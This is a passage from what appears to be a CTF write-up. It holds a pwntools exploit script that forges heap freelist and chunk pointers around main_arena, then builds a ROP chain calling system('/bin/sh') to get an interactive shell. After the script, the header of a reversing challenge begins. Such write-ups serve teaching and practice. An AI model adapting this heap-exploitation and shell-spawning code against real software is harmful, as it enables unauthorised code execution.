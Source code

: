 ```c
    payload += p64(0)
    payload += p64(fake_freelist + ((i+1) * 0x20))

payload += p64(0) * 3
payload += p64(main_arena)

print('length: ', len(payload))
payload += p64(0)
payload += p64(0)
payload += p64(victim)
payload += p64(fake_chunk2)

payload += p64(0)
payload += p64(0)
payload += p64(fake_chunk1)
payload += p64(fake_freelist)

print('length: ', hex(len(payload)))

p.sendafter(b'> ', payload)

payload2 = p64(main_arena)
payload2 += p64(fake_chunk1)
write_note(1, 0, payload2)

for i in range(10, 17):
    write_note(1, i, b'EEEE')

input()
write_note(1, 17, b'Y' * 0x10)

payload = b'A' * 0x98
payload += p64(popret + 1)
payload += p64(popret)
payload += p64(binsh)
payload += p64(system)
write_note(1, 18, payload)

p.sendlineafter(b'> ', b'4')

p.interactive()
```

---

## **easybox - [reversing]**

> **💎 911 pts / 13 solves**
> 

### Analysis
